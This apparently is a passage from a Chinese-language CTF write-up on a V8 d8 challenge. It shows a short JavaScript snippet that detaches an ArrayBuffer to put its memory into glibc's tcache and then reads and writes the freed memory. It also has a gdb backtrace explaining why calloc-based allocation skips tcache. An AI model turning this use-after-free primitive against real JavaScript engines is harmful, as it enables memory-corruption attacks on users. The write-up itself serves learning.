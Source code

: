 ```js
let a = new Uint8Array(0x200);
let b = new Uint8Array(0x200);
%ArrayBufferDetach(a.buffer); // into tcache
a.set(b) // overwrite a's fd, write to freed mem
b.set(a) // read from freed mem
```

`d8`使用的是`glibc`来进行内存分配，所以这题可以简化成堆的菜单题。

这里需要注意一点的是正常以`new Uint8Array(0x200);`这种形式来分配内存的时候，会调用`calloc`来分配内存，它是不会用`tcache`来分配的。分配的函数调用栈如下所示：

```asm
#0  __libc_calloc (n=0x600, elem_size=0x1) at malloc.c:3366
#1  0x00007f3b7fbd411c in v8::(anonymous namespace)::ArrayBufferAllocator::Allocate (this=0x5600e01d5af0, length=0x600) at ../../src/api/api.cc:546
#2  0x00005600e013ba6f in v8::(anonymous namespace)::ArrayBufferAllocatorBase::Allocate (this=0x7fff5cf95c40, length=0x600) at ../../src/d8/d8.cc:120
#3  0x00005600e013b8ec in v8::(anonymous namespace)::ShellArrayBufferAllocator::Allocate (this=0x7fff5cf95c40, length=0x600) at ../../src/d8/d8.cc:141
#4  0x00007f3b8034cfa1 in v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0::operator()(unsigned long) const (this=0x7fff5cf94228, byte_length=0x600) at ../../src/objects/backing-store.cc:238
#5  0x00007f3b8034cf22 in std::__Cr::__invoke<v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0&, unsigned long> (__f=..., __args=@0x7fff5cf940a0: 0x600) at ../../buildtools/third_party/libc++/trunk/include/type_traits:3529
#6  0x00007f3b8034cee2 in std::__Cr::__invoke_void_return_wrapper<void*>::__call<v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0&, unsigned long>(v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0&, unsigned long&&) (__args=@0x7fff5cf940a0: 0x600, __args=@0x7fff5cf940a0: 0x600) at ../../buildtools/third_party/libc++/trunk/include/__functional_base:317
#7  0x00007f3b8034cea0 in std::__Cr::__function::__default_alloc_func<v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0, void* (unsigned long)>::operator()(unsigned long&&) (this=0x7fff5cf94228, __arg=@0x7fff5cf940a0: 0x600) at ../../buildtools/third_party/libc++/trunk/include/functional:1590
#8  0x00007f3b8034ce66 in std::__Cr::__function::__policy_invoker<void* (unsigned long)>::__call_impl<std::__Cr::__function::__default_alloc_func<v8::internal::BackingStore::Allocate(v8::internal::Isolate*, unsigned long, v8::internal::SharedFlag, v8::internal::InitializedFlag)::$_0, void* (unsigned long)> >(std::__Cr::__function::__policy_storage const*, unsigned long) (__buf=0x7fff5cf94228, __args=0x600) at ../../buildtools/third_party/libc++/trunk/include/functional:2071
#9  0x00007f3b800c810e in std::__Cr::__function::__policy_func<void* (unsigned long)>::operator()(unsigned long&&) const (this=0x7fff5cf94228, __args=@0x7fff5cf94100: 0x600) at ../../buildtools/third_party/libc++/trunk/include/functional:2203
#10 0x00007f3b800999b0 in std::__Cr::function<void* (unsigned long)>::operator()(unsigned long) const (this=0x7fff5cf94228, __arg=0x600) at ../../buildtools/third_party/libc++/trunk/include/functional:2473
#11 0x00007f3b80082dc0 in v8::internal::Heap::AllocateExternalBackingStore(std::__Cr::function<void* (unsigned long)> const&, unsigned long) (this=0x2c4a000097b0, allocate=..., byte_length=0x600) at ../../src/heap/heap.cc:2908
#12 0x00007f3b8034a1e6 in v8::internal::BackingStore::Allocate (isolate=0x2c4a00000000, byte_length=0x600, shared=v8::internal::SharedFlag::kNotShared, initialized=v8::internal::InitializedFlag::kZeroInitialized) at ../../src/objects/backing-store.cc:252
#13 0x00007f3b7fd00277 in v8::internal::(anonymous namespace)::ConstructBuffer (isolate=0x2c4a00000000, target=..., new_target=..., length=..., initialized=v8::internal::InitializedFlag::kZeroInitialized) at ../../src/builtins/builtins-arraybuffer.cc:56
#14 0x00007f3b7fcfde82 in v8::internal::Builtin_Impl_ArrayBufferConstructor (args=..., isolate=0x2c4a00000000) at ../../src/builtins/builtins-arraybuffer.cc:92
#15 0x00007f3b7fcfd69e in v8::internal::Builtin_ArrayBufferConstructor (args_length=0x6, args_object=0x7fff5cf946f8, isolate=0x2c4a00000000) at ../../src/builtins/builtins-arraybuffer.cc:70
#16 0x00007f3b7f75563f in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit () from /home/f0cus77/work/pwn/v8/v8/out/x64.debug/libv8.so
#17 0x00007f3b7f51e265 in Builtins_JSBuiltinsConstructStub () from /home/f0cus77/work/pwn/v8/v8/out/x64.debug/libv8.so
```